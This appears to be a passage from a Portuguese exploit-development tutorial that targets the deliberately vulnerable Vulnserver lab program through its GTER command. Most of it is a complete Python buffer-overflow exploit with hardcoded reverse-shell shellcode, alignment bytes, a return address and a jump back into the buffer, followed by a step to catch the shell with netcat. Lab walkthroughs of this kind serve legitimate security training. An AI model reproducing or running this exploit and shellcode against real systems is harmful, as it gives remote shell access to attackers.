 Temos os opcodes \x50 e \x5c, vamos adicionálos acima de nosso shellcode.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 147

shellcode = b"\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x40\x71\xe6\x76\xff\xd3\x96\x68\xc0\xa8\x01\x0c\x66\x68\x20\xfb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x10\x53\x56\xbb\x10\x57\xe6\x76\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x31\xd2\x56\x56\x56\x52\x52\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53\x51\x53\xbb\x90\x2d\x2b\x75\xff\xd3"

alinhamento = b"\x50\x5c"

payload = b"GTER /.:/" # funcao inicial
payload += alinhamento
payload += shellcode
payload += b"A" * (offset - 2 - len(shellcode))
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"\xe9\x64\xff\xff\xff" # salta para o primeiro buffer
payload += b"C" * (309 - 147 - 4 - 5) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado! Cheque o netcat.")
```

Agora podemos setar o netcat na porta utilizada no shellcode, em nosso caso 8443 iniciar o vulnserver fora do Immunity e rodar nosso script.
